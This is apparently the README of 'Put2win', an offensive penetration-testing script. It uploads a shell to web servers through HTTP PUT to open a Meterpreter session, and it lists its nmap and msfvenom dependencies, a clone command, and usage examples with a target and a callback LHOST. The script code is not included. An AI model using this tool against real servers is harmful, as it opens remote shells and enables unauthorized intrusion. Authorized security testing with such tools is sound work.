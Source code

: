 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
git clone https://github.com/sysdevploit/put2win

# Usage
`./Put2win.sh -h`                                  
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
`./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST`

Examples:                                  
`./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10`                                  
`./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10`

# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
